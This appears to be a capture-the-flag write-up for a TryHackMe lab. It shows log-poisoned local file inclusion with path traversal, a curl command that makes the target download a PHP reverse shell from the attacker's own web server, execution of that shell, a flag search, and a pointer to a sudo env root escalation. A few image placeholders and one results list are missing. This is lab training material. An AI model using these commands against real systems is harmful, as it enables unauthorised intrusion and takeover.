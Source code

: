 IMAGE MONKEYSHELL

Host a python web server for target to download our reverse shell from. Ensure this is either in the same folder as the reverse shell or adjust the curl command ahead in order to reach the correct directory.
```bash
python3 -m http.server 8080 
```

In order for the target machine to save our shell onto the machine we will use the target's curl command in the format:
```bash
curl http://10.14.23.1:8080/monkeyshell.php -o shell.php
```
This will download monkeyshell.php and using the option -o save it as shell.php in the directory the command has been run from.

Putting this curl command into our LFI URL we get the final result:

**http://10.10.150.242/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl http://10.14.23.1:8080/monkeyshell.php -o shell.php**

Our python server lets us know when our target machine has downloaded our shell

INSERT WEBDOWLOAD

In order to get our shell.php to execute we remember back to using LFI to read index.php, so we use the following (remember by default .php will be added)\
**http://10.10.150.242/?view=./dog/../shell**

IMAGE REVERSE SHELL

**SUCCESS**, we have our reverse shell on our machine

# 3. Post Compromise Enumeration

# 3.1 Find some flags

Looking back at the THM room we are in search of flags so I ran a find command to check for accessible flags. I used -iname to make the search **case insensitive** as sometimes creators use different cases through the filename.

```bash
find / -type f -iname "flag*" 2>/dev/null
```

This reurns us two results at:

Which we can `cat` out and get our first two flags (if you didn't grab flag 1 earlier with LFI)

IMAGE FLAG 1 AND 2
# 4. Privilege Escalation
## 4.1 Elevate to root
Checking for sudo rights using `sudo -l` shows us we can run /usr/bin/env as sudo without a password. Looking this up at [GTFO Bins](https://gtfobins.github.io/gtfobins/env/#sudo) we can use the command on this site to get a root shell
